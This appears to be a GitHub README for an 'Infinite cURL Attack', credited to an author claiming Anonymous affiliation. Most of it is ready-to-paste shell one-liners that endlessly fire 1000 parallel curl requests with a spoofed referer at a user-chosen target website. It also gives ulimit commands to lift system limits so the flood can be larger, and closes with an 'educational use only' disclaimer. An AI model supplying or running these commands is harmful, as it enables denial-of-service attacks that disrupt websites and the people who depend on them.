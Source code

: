 <img src="https://i.pinimg.com/originals/23/a1/1f/23a11f14ab93d3ed4541960141e380ad.gif" width="200" alt="Security Tools by gh0$t. Affiliation : Anonymous (hacker group, global)." title="Security Tools by gh0$t. Affiliation : Anonymous (hacker group, global)." />  

# Infinite_cURL_Attack
Infinite cURL Attack

**USAGE** : Copy-Paste-Edit the following code (replace **_https://Your.Target.Website.com_** with your target website) in the Terminal/CMD & press Enter.  

```
while (true); do seq 1 1000 | xargs -n1 -P 1000 curl -I -i -v -H "Connection: keep-alive" -H "Referer: https://google.com" "https://Your.Target.Website.com"; done;
```  

If you don't want logs in your terminal and make the attacks faster, do this (**the following is my preference**):  

```
while (true); do seq 1 1000 | xargs -n1 -P 1000 curl -s -H "Connection: keep-alive" -H "Referer: https://google.com" "https://Your.Target.Website.com" > /dev/null; done;
```  

**Note 1:** Reduce the numbers from **1000** if your system crashes. It's the number of parallel requests fired (opened files allowed) at once. Or check **Note 2**.  
**Note 2:** To bypass **open file limit (No file descriptors available)** run the following code before running the above code...  
CPU time (seconds): 
```
ulimit -t unlimited
```
File size (blocks): 
```
ulimit -f unlimited
```
Maximum memory size (kbytes): 
```
ulimit -m unlimited
```
Maximum user processes: 
```
ulimit -u unlimited
```
Open files: 
```
ulimit -n unlimited
```
or try out the solutions in  
**https://epi052.github.io/feroxbuster-docs/docs/faq/no-file-descriptors/**  
**https://www.cyberciti.biz/faq/linux-increase-the-maximum-number-of-open-files/**  
**https://discussions.apple.com/thread/2206502**  
**https://frameboxxindore.com/apple/your-question-how-do-i-change-the-ulimit-max-user-processes-in-linux.html**  
etc.  

**IMPORTANT:**  
THIS SOFTWARE IS PROVIDED FOR EDUCATIONAL USE ONLY!  
IF YOU ENGAGE IN ANY ILLEGAL ACTIVITY THE AUTHOR DOES NOT TAKE ANY RESPONSIBILITY FOR IT.  
BY USING THIS SOFTWARE YOU AGREE WITH THESE TERMS.
